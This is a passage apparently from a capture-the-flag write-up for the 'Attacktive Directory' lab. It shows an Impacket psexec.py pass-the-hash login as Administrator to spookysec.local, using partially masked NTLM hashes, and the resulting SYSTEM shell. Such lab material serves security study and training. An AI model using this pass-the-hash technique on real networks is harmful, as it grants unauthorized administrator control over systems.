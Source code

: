 OR

### Login to admin with psexec.py

``` bash
$ python3 psexec.py Administrator:@spookysec.local -hashes aad3b435b51404XXXXX3b435b51404ee:0e0363213e37bXXXXX497260b0bcb4fc

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on spookysec.local.....
[*] Found writable share ADMIN$
[*] Uploading file MzOQcUCs.exe
[*] Opening SVCManager on spookysec.local.....
[*] Creating service trwO on spookysec.local.....
[*] Starting service trwO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname      
nt authority\system
AttacktiveDirectory
``` 
